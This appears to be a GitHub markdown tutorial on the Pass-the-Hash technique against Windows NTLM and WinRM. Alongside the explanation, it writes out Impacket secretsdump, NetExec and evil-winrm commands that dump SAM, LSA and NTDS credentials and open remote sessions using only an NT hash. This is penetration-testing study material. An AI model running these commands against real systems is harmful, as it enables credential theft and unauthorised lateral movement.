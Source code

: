 # 🔐 Pass the Hash (PtH) 

### What is Pass the Hash?

**Pass the Hash (PtH)** is a technique where an attacker uses the **NT hash** of a user's password to authenticate to services without needing the plaintext password. This works because NTLM (Windows authentication protocol) accepts the hash itself for login.

> An attacker doesn't need to crack the password — just knowing the hash is enough to impersonate the user!

##  Theory Behind PtH

- NTLM authentication relies on a challenge-response mechanism using the NT hash.
- If an attacker gets the hash, they can "pass" it to remote systems and authenticate as that user.
- It's commonly used in post-exploitation stages to move laterally or dump more credentials.


## Practice

The Impacket script secretsdump has the ability to remotely dump hashes and LSA secrets from a machine (LMhash can be empty).

```
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```
```
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
```
```
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

NetExec (Python) has the ability to do it on a set of targets. The bh_owned has the ability to set targets as "owned" in BloodHound (see dumping credentials from registry hives).

```
netexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
```
```
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
```
```
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds
```


### Example of WinRM and Pass-the-Hash?

**WinRM (Windows Remote Management)** is a Microsoft protocol that allows remote command execution using PowerShell. It’s commonly used in system administration.

When **Pass-the-Hash (PtH)** is combined with WinRM, it allows an attacker to authenticate with just an **NTLM hash**, without knowing the actual password — **as long as the target is configured to allow local admin access via WinRM.**

---

###  Why It Works

When you run `Enable-PSRemoting` on a Windows system:
- It **enables WinRM**
- It **sets `LocalAccountTokenFilterPolicy = 1`**, which:
  - Lets **local admin accounts** log in remotely
  - Removes the usual token filtering for non-domain users
  - **Allows PtH with local admin accounts**

---

###  Example: Using `evil-winrm` to Pass the Hash

Suppose you have the following:

- **Target IP:** `192.168.129.140`  
- **Username:** `jack` (local admin)  
- **NTLM hash:** `f26db8968d8e6c0790978baaaaaaaaaa`

You can use the `evil-winrm` tool like this:

```bash
evil-winrm -i 192.168.129.140 -u jack -H f26db8968d8e6c0790978baaaaaaaaaa
```

 **Note:** No password needed — just the NT hash!

---

### Point:

**Pass-the-Hash (PtH)** depends on the **NTLM hash** — specifically the **NT hash**, *not* the LM hash.

---

###  Hash Types in Windows Authentication

| Type     | Used in PtH? | Description                            |
|----------|--------------|----------------------------------------|
| **NT Hash** | ✅ Yes       | Modern hash of the password (MD4 of Unicode) |
| **LM Hash** | ❌ No        | Legacy hash, weak and often disabled   |

---

###  Why NT Hash?

- When using PtH, tools like `evil-winrm`, `psexec.py`, `wmiexec.py`, etc. send the **NT hash** in the NTLM authentication process — **mimicking** the real password.
- Windows systems accept the hash if the user has the correct privileges.

---
